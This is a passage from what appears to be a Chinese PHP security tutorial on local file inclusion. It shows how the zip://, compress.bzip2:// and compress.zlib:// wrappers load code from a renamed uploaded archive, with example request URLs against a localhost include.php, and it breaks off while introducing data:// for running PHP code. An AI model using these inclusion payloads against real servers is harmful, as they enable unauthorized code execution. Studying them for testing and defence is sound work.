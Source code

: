     ![图片描述](https://segmentfault.com/img/bVbrQBi)

- **参考**：https://php.net/manual/zh/wrappers.php.php

## `zip:// & bzip2:// & zlib://` 协议

- **条件**：

  - `allow_url_fopen`:off/on
  - `allow_url_include` :off/on

- **作用**：`zip:// & bzip2:// & zlib://` 均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名，可修改为任意后缀：`jpg png gif xxx` 等等。

- **示例**：

  1. `zip://[压缩文件绝对路径]%23[压缩文件内的子文件名]`（#编码为%23）

     压缩 phpinfo.txt 为 phpinfo.zip ，压缩包重命名为 phpinfo.jpg ，并上传

     ```
     http://127.0.0.1/include.php?file=zip://E:\phpStudy\PHPTutorial\WWW\phpinfo.jpg%23phpinfo.txt
     ```

     ![图片描述](https://segmentfault.com/img/bVbrQBj)

  2. `compress.bzip2://file.bz2`

     压缩 phpinfo.txt 为 phpinfo.bz2 并上传（同样支持任意后缀名）

     ```
     http://127.0.0.1/include.php?file=compress.bzip2://E:\phpStudy\PHPTutorial\WWW\phpinfo.bz2
     ```

     ![图片描述](https://segmentfault.com/img/bVbrQBt)

  3. `compress.zlib://file.gz`

     压缩 phpinfo.txt 为 phpinfo.gz 并上传（同样支持任意后缀名）

     ```
     http://127.0.0.1/include.php?file=compress.zlib://E:\phpStudy\PHPTutorial\WWW\phpinfo.gz
     ```

     ![图片描述](https://segmentfault.com/img/bVbrQBu)

- **参考**：http://php.net/manual/zh/wrappers.compression.php

## `data://` 协议

- **条件**：

  - `allow_url_fopen`:on
  - `allow_url_include` :on

- **作用**：自`PHP>=5.2.0`起，可以使用`data://`数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。
